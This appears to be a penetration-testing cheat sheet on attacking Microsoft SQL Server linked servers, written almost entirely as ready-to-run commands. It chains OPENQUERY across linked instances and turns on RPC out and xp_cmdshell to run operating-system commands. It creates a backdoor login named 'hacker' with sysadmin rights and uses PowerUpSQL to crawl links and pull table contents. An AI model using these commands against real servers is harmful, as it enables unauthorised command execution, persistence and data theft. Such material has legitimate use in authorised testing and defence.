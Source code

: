 # MSSQL - Linked Database

## Summary

- [Find Trusted Link](#find-trusted-link)
- [Execute Query Through The Link](#execute-query-through-the-link)
- [Crawl Links for Instances in the Domain](#crawl-links-for-instances-in-the-domain)
- [Crawl Links for a Specific Instance](#crawl-links-for-a-specific-instance)
- [Query Version of Linked Database](#query-version-of-linked-database)
- [Execute Procedure on Linked Database](#execute-procedure-on-linked-database)
- [Determine Names of Linked Databases](#determine-names-of-linked-databases)
- [Determine All the Tables Names from a Selected Linked Database](#determine-all-the-tables-names-from-a-selected-linked-database)
- [Gather the Top 5 Columns from a Selected Linked Table](#gather-the-top-5-columns-from-a-selected-linked-table)
- [Gather Entries from a Selected Linked Column](#gather-entries-from-a-selected-linked-column)


## Find Trusted Link


```sql
select * from master..sysservers
```


## Execute Query Through The Link

```sql
-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- enable rpc out for xp_cmdhshell
EXEC sp_serveroption 'sqllinked-hostname', 'rpc', 'true';
EXEC sp_serveroption 'sqllinked-hostname', 'rpc out', 'true';
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc'',''true'';');
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc out'',''true'';');

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## Crawl Links for Instances in the Domain 

A Valid Link Will Be Identified by the DatabaseLinkName Field in the Results


```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
select * from master..sysservers
```


## Crawl Links for a Specific Instance

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
select * from openquery("<instance>",'select * from openquery("<instance2>",''select * from master..sysservers'')')
```


## Query Version of Linked Database

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```


## Execute Procedure on Linked Database

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```


## Determine Names of Linked Databases 

> tempdb, model ,and msdb are default databases usually not worth looking into. Master is also default but may have something and anything else is custom and definitely worth digging into. The result is DatabaseName which feeds into following query.

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```


## Determine All the Tables Names from a Selected Linked Database

> The result is TableName which feeds into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```


## Gather the Top 5 Columns from a Selected Linked Table

> The results are ColumnName and ColumnValue which feed into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```

## Gather Entries from a Selected Linked Column


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```

